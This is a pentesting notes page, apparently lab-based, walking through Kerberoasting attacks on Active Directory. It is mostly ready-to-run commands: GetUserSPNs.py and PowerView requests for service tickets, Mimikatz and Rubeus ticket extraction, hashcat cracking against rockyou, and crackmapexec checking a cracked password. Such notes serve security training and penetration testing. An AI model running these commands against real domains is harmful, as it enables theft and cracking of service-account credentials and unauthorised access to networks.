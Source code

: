 # Kerberoasting

### Kerberoasting Overview

* This attack targets Service Principal Names (SPNs) accounts.
  * [purpose-of-service-principal-names-spn-in-active-directory.md](../blog/purpose-of-service-principal-names-spn-in-active-directory.md "mention")
    * SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running
      * Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.

### Kerberoasting - Performing the Attack

* Depending on your position in a network, this attack can be performed in multiple ways:
  * From a non-domain joined Linux host using valid domain user credentials.
  * From a domain-joined Linux host as root after retrieving the keytab file.
  * From a domain-joined Windows host authenticated as a domain user.
  * From a domain-joined Windows host with a shell in the context of a domain account.
  * As SYSTEM on a domain-joined Windows host.
  * From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.

## Kerberoasting - from Linux

### Kerberoasting with GetUserSPNs.py

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```



<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Requesting all TGS Tickets

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```



<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Requesting a Single TGS ticket

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

#### Cracking the Ticket Offline with Hashcat

* crack with [hashcat.md](hashcat.md "mention")



```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

* password is database!

**Testing Authentication against a Domain Controller**

* [crackmapexec.md](crackmapexec.md "mention")

```shell-session
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

## Kerberoasting - from Windows

### Manual way

#### Enumerating SPNs with setspn.executes

```cmd-session
setspn.exe -Q */*
```

#### Targeting a Single User

```powershell-session
Add-Type -AssemblyName System.IdentityModel
```

```powershell-session
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

* The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
* The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
* [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
* We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
* We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

#### Retrieving All Tickets Using setspn.exe

```powershell-session
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

#### Extracting Tickets from Memory with Mimikatz



* [mimikatz.md](mimikatz.md "mention")

```cmd-session
mimikatz # base64 /out:true
```

```cmd-session
mimikatz # kerberos::list /export  
```

```shell-session
echo "<base64 blob>" |  tr -d \\n 
```

```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

```shell-session
kirbi2john.py sqldev.kirbi
```

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

* [hashcat.md](hashcat.md "mention")

```shell-session
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

### Automated / Tool Based Route

#### Using PowerView to Extract TGS Tickets

```powershell-session
Import-Module .\PowerView.ps1
```

```powershell-session
Get-DomainUser * -spn | select samaccountname
```

#### Using PowerView to Target a Specific User

```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

#### Exporting All Tickets to a CSV File

```powershell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

#### Using Rubeus

```powershell-session
.\Rubeus.exe kerberoast /stats
```

```powershell-session
 .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

#### Using the /tgtdeleg Flag

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* `/tgtdeleg` flag, the tool requested an RC4 ticket even though the supported encryption types are listed as AES 128/256

## Reference

* https://adsecurity.org/?p=3458
